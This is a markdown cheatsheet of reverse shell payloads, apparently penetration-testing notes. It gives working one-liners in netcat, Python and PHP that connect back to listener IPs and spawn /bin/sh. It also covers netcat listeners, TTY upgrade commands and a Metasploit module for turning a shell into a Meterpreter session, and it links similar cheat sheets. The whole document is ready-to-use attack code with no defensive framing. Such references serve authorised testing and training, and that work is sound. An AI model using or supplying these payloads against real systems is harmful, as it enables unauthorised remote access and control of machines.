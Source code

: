 # Shell Cheatsheet

## Reverse Shell

### Shell

```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

```
nc -e /bin/sh 10.0.0.1 1234
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## Listener

### Shell

#### General Listener

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

```
stty raw -echo && fg %1
```

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7edv](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)


